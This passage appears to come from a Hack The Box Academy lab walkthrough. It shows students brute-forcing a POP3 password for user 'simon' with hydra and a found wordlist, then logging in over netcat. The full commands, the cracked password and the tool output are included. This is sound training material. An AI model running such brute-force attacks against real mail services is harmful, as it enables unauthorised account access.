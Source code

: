 Checking the contents of the file "mynotes.txt", students will notice that it contains a possible wordlist of passwords, thus, they need to use it to bruteforce the password for the user `simon` on the `POP3` service, finding the credentials `simon:8Ns8j1b!23hs4921smHzwn`:

Code: shell

```shell
hydra -l simon -P mynotes.txt pop3://STMIP
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-rureq65obq]─[~]
└──╼ [★]$ hydra -l simon -P mynotes.txt pop3://10.129.183.208

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-27 17:32:00
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking pop3://10.129.183.208:110/
[110][pop3] host: 10.129.183.208   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-27 17:32:05
```

With the attained credentials, students need to connect to port 110 and use `simon` for user and `8Ns8j1b!23hs4921smHzwn` for password to log in:

Code: shell

```shell
nc -nv STMIP 110
user simon
pass 8Ns8j1b!23hs4921smHzwn
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-rureq65obq]─[~]
└──╼ [★]$ nc -nv 10.129.183.208 110

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.183.208:110.
+OK Dovecot (Ubuntu) ready.
user simon
+OK
pass 8Ns8j1b!23hs4921smHzwn
+OK Logged in.
```

When using the `list` command, students will find that there is only one email, thus, they need to use `retr` on its index:

Code: shell
